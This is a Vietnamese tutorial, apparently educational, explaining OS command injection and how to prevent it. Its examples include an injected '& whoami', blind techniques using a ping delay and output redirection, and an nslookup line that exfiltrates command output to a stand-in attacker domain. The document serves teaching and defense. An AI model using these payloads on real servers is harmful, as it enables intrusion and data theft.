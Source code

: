 # OS Command Injection

## OS Command Injection là gì?

  -	OS Command Injection (Shell Injection) là một lỗ hổng bảo mật web, cho phép attacker có thể thực thi các câu lệnh shell của hệ điều hành trên server máy chủ.

## Nguyên nhân xảy ra OS Command Injection?

  - OS Command Injection xảy ra khi một ứng dụng gọi thực thi một lệnh shell với input từ người dùng mà không kiểm tra input cẩn thận.

## Ví dụ về OS Command Injection

Đây là đoạn code cho của một ứng dụng máy tính đơn giản, sử dụng lệnh cmd `set /a (phép tính)` để tính toán

![](images/1.png)

Phép tính chạy lúc bình thường

![](images/2.png)

![](images/3.png)

Tuy nhiên vì không kiểm tra các kí tự đầu vào nên attacker có thể lợi dụng lỗ hỏng OS Command Injection như sau

![](images/4.png)

Lúc này câu lệnh sẽ được thực thi trên shell là `set /a & whoami`

![](images/5.png)

Kí tự `&` là kí tự ngắt giữa 2 lệnh shell với nhau, còn lại lệnh whoami đã dược chạy và cho kết quả (2 user khác nhau vì user phía trên là của Xamp)

## Hacker có thể làm gì khi khai thác được OS Command Injection?

Khi khai thác được OS Command Injection, hacker có thể thực thi các lệnh shell trên server máy chủ. Tùy theo đặc quyền của server mà hacker có thể thực hiện:

  -	Truy cập các file, dữ liệu thuộc server (cat, ...)
  -	Khai thác thông tin của server (whoami, ifconfig, ps -ef, netstat -an, ...)
  -	Sửa đổi, phá hoại các file trên server (rm, echo, ...)
  -	Chuyển hướng tấn công đến các hệ thống khác (dựa vào sự tin cậy giữa server bị tấn công và hệ thống mục tiêu)
   
## Blind OS command injection

Trường hợp kết quả của câu lệnh shell không trả về trong HTTP respone. Ta cần một số kĩ thuật để khai thác blind OS command injection.

### Xác định OS command injection dựa vào time-delay

Lệnh `ping -c 10 127.0.0.1` (linux) hay `ping -n 10 127.0.0.1` (windows) gửi 10 gói tin ICMP tới địa chỉ IP loopback, dựa vào thời gian thực thi của lệnh, ta xác định được OS command injection, ngoài ra các lệnh có time-delay khác đều có thể sử dụng.

### Khai thác blind OS command injection bằng chuyển hướng đầu ra

Nếu kết quả của câu lệnh không trả về trong HTTP respone, ta có thể ghi kết quả câu lệnh vào một file mà ta có thể truy cập và đọc được.

Giá sử thư mục gốc của website nằm ở `/var/www/static` ta dùng lệnh như sau `whoami > /var/www/static/whoami.txt`, lúc này kết quả trả về của lệnh whoami sẽ được ghi vào file `whoami.txt` nằm trong thư mục gốc của website, ta có thể dùng trình duyệt để truy cập `https://vulnerable-website.com/whoami.txt` và xem kết quả trả về.

### Khai thác blind OS command injection bằng các lệnh kết nối mạng

Ta có thể sử dụng kết nối mạng để khai thác các lỗ hổng blind OS command injection, ví dụ

```
nslookup `whoami`.kgji2ohoyw.web-attacker.com 
```
Lệnh này tra cứu DNS cho tên miền `(kết quả câu lệnh whoami).web-attacker.com`, tên miền `web-attacker.com` được kiểm soát bởi attacker và attacker có thể theo dõi giá trị truy vấn để tìm ra kết quả của `whoami`.

## Phòng tránh OS command injection

### Giai đoạn đang phát triển:
  -	Không sử dụng các câu lệnh shell, trong hầu hết mọi trường hợp, có nhiều cách thay thế để triển khai chức năng cần thiết bằng cách sử dụng các API nền tảng an toàn hơn.
  -	Nếu như bắt buộc phải dùng các câu lệnh shell, cần áp dụng xác thực đầu vào mạnh:
  ```
  +) Chỉ cho phép dùng các kí tự cho phép
  +) Chỉ cho phép dùng các kí tự số
  +) Chỉ cho phép dùng các kí tự chữ cái hoặc số, không có kí tự đặc biệt hay khoảng trắng
  ```
  - Lưu ý: Đừng lọc đầu vào bằng cách kiểm tra các kí tự đặc biệt của shell (như &, \|, ;, ...). Trên thực tế, điều này quá rủi ro và dễ bị các hacker trình độ cao vượt qua.

### Giai đoạn chạy thực tế:
  -	Cài đặt Web Application Firewall để chặn các gói tin có chứa các kí tự đặc biệt, các keyword đến server
  ```
  +) Một số kí tự đặc biệt trong OS command injection như | ; & $ > < ' \ ! >> # “
  ``` 
  -	Phân quyền chặt chẽ để hạn chế những tài nguyên mà user web service có thể làm tổn hại nếu bị tấn công
  -	Cần có cơ chế xác thực hoặc các hệ thống như IDS để phòng trường hợp máy bị tấn công chuyển hướng tấn công đến các hệ thống khác trong tổ chức

## Nguồn tham khảo

  - [https://portswigger.net/web-security/os-command-injection](https://portswigger.net/web-security/os-command-injection)
  - [https://viblo.asia/p/os-command-injection-la-gi-command-injection-co-nguy-hiem-khong-can-cuc-ky-than-trong-doi-voi-cac-lenh-os-goi-tu-website-cua-ban-OeVKB3PEZkW](https://viblo.asia/p/os-command-injection-la-gi-command-injection-co-nguy-hiem-khong-can-cuc-ky-than-trong-doi-voi-cac-lenh-os-goi-tu-website-cua-ban-OeVKB3PEZkW)
 
